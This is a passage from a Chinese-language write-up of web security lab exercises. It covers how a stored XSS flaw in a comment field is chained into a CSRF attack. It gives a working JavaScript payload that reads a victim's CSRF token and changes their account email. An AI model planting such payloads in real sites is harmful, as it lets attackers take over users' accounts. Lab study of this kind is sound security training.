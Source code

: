 ![27.1](xss-burp.assets/27.1.png)

这个题目在comment这里存在一个XSS漏洞，然后直接构建CSRF攻击。

这道题在更改email的地方存有token，需要取出来。

![27.2](xss-burp.assets/27.2.png)

下面是js代码。

```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();

function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

match函数的作用主要是获取当前的token，然后如果有分组，则会单独保存分组的结果。

这里单独将value的后面分组了，然后取出结果，作为token。

#### 28. Reflected XSS protected by CSP, with dangling markup attack
